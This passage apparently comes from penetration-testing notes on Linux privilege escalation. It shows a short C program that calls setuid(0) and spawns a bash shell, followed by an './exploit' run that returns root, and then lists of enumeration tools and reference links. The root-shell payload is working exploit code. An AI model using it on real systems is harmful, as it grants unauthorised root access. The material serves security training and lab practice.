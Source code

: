 ```
#include <unistd.h>

int main()
{
    setuid(0);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

\`./exploit

## whoami

root\`

**Tools :**

* [ ] Linux Exploit Suggester (HTB Nibbles) ([https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester))
* [ ] SUIDENUM ([https://github.com/Anon-Exploiter/SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM))
* [ ] LinEnum.sh ([https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum))
* [ ] linpeas.sh ([https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS))
* [ ] Linprivchecker ([https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker))
* [ ] pspy ([https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)) (crontabs)

**Resources :**

* [https://sushant747.gitbooks.io/total-oscp-guide/privilege\_escalation\_-\_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege\_escalation\_-\_linux.html)
* [https://github.com/Ignitetechnologies/Privilege-Escalation](https://github.com/Ignitetechnologies/Privilege-Escalation)
* [https://gtfobins.github.io/](https://gtfobins.github.io)
* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
